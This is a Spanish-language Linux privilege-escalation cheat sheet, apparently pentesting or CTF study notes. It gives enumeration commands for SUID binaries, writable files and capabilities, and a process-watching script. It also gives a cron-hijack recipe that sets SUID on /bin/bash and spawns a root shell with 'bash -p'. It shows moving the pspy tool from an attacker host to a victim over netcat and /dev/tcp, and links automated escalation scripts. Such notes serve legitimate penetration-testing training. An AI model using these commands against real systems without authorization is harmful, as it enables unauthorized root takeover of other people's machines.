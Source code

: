 -- -
### 🔍 **Detectar Binarios con SUID**
El siguiente comando busca archivos binarios con el bit SUID activo:
```bash
find / -type f -perm /4000 -exec ls -l {} \; 2>/dev/null
```
- **/4000:** Busca archivos con permisos SUID.  

---

### 📝 **Archivos con Permiso de Escritura**
Para identificar archivos que pueden ser escritos por el usuario:
```bash
find / -writable 2>/dev/null
```
- **-writable:** Muestra archivos con permisos de escritura.  

---

### 🐍 **Buscar Archivos Python (Python Library Hijacking)**
Si encontramos archivos Python, podríamos intentar el secuestro de bibliotecas:
```bash
find / -type f -name "*.py" 2>/dev/null
```
- **-name "*.py":** Encuentra archivos con extensión `.py`.  

---

### 🪙 **Buscar Capabilities en Binarios**
Algunas capacidades pueden brindar acceso a escalada de privilegios:
```bash
getcap -r / 2>/dev/null
```
- **-r /:** Recorre todo el sistema en busca de binarios con capabilities.  

---

## ⏳ **Detección y Explotación de Tareas Cron**

### 🕵️ **Script de Detección de Procesos en Ejecución**
El siguiente script detecta procesos nuevos en el sistema:
```bash
#!/bin/bash

old_process=$(ps -eo user,command)

while true; do
    new_process=$(ps -eo user,command)
    diff <(echo "$old_process") <(echo "$new_process") | grep "[\>\<]" | grep -vE "procmon|command|kworker"
    old_process=$new_process
done
```
- **ps -eo user,command:** Muestra los procesos en ejecución con usuario y comando.  
- **diff:** Compara procesos antiguos con los nuevos.  
- **grep "[\>\<]":** Filtra las diferencias entre ambos listados.  

---

### 🚩 **Explotación de Tareas Cron**
Si descubrimos que el usuario root está ejecutando un script mediante una tarea cron, podemos modificarlo para escalar privilegios:
```bash
#!/bin/bash 
sleep 2
chmod u+s /bin/bash
```
- **chmod u+s /bin/bash:** Agrega el bit SUID a bash, permitiendo su ejecución como root.  

#### 💥 **Obtener Bash con Permisos Elevados**
```bash
bash -p
```
- El parámetro `-p` preserva los privilegios SUID.  

---

### 🕵️ **Detección con pspy**
Podemos usar la herramienta **pspy** para detectar procesos ejecutándose como root:
- Repositorio de pspy: [pspy en GitHub](https://github.com/DominicBreuker/pspy)

#### 💻 **Transferencia sin curl ni wget**
Podemos transferir el binario usando netcat:
```bash
# Atacante:
nc -nlvp 443 < pspy
md5sum pspy

# Víctima:
cat < /dev/tcp/192.168.64.128/443 > pspy
md5sum pspy
```
- 💡 **Si los hashes coinciden**, la transferencia fue exitosa.  

---

## 🔧 **Scripts de Enumeración Automática en Linux**

- **LSE (Linux Smart Enumeration)**  
  - Ejecución recomendada:  
    ```bash
    ./lse.sh -l 1
    ```
  - Repositorio: [LSE en GitHub](https://github.com/diego-treitos/linux-smart-enumeration)  

- **LinPEAS**  
  - Escaneo detallado de privilegios en el sistema:  
    ```bash
    ./linpeas.sh
    ```
  - Repositorio: [PEASS-ng en GitHub](https://github.com/carlospolop/PEASS-ng)  

- **Linux Exploit Suggester**  
  - Identifica posibles vulnerabilidades del kernel:  
    ```bash
    perl les.sh
    ```
  - Repositorio: [Linux Exploit Suggester](https://github.com/mzet-/linux-exploit-suggester)  

---

💾 **Guarda esta guía en Obsidian para tener siempre a mano los mejores trucos de escalada de privilegios en Linux!** 🚀